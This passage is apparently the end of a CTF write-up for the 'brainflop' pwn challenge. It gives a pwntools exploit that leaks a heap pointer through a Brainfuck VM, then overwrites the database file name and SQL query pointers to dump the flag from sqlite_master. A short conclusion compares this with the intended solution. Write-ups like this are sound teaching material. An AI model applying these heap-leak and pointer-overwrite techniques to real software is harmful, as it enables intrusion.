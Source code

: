 ```python
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r)

# Cause some heap allocations for leaking heap address
r.sendlineafter(b'>> ', b'1')  # Create new VM
r.sendlineafter(b' ? ', b'n')  # Disable backups
r.sendlineafter(b'): ', b'A' * 200)  # Long BF program to cause allocations

# Leak heap address
r.sendlineafter(b'>> ', b'2')  # Reuse existing VM
r.sendlineafter(b'>> ', b'1')  # VM index
r.sendlineafter(b' ? ', b'y')  # Enable backups (I don't remember why)
r.sendlineafter(b'): ', b'>' * 0x48 + b'.>' * 8)  # BF program to print pointer
leek = u64(r.recv(8))
log.info(f'{hex(leek)=}')

# Overwrite database file name and SQL query
r.sendlineafter(b'>> ', b'1')  # Create new VM
r.sendlineafter(b' ? ', b'y')  # Enable backups so that database will be dumped
pl = b'<' * 0x650 + b',>' * 8 + b'<' * 0x30 + b',>' * 8 + b'SELECT*FROM`sqlite_master`;--todo_delete_this.db\0'
# Pad to fixed size so heap layout doesn't change
assert len(pl) <= 10000
pl = pl.ljust(10000, b'A')
r.sendlineafter(b'): ', pl)
# Send database file name address
for b in p64(leek + 0x16cd):
   r.sendline(bytes([b]))
# Send SQL query address
for b in p64(leek + 0x25c0):
   r.sendline(bytes([b]))

# Exit the program so that the backup will be performed
r.sendlineafter(b'>> ', b'3')

r.interactive()
```

# Conclusion

When I read the [challenge author's solution](https://github.com/osirislab/CSAW-CTF-2023-Finals/tree/main/pwn/brainflop#solution), I realized that we had solved this challenge in a way that was easier than intended.
The author did some heap feng shui to make overwriting the file name pointer possible, but I didn't need any of that.
Padding the program to a fixed size probably helped.
Also, it looks like we were supposed to do a bit of detective work to find the flag in the database after overwriting the SQL query.
The flag was in one of several tables with random names and it had been overwritten using an SQL trigger, but we just dumped the whole `sqlite_master` table which had the flag inside.
It looks like this challenge was intended to be as hard as it initially seemed, but we got a bit lucky.
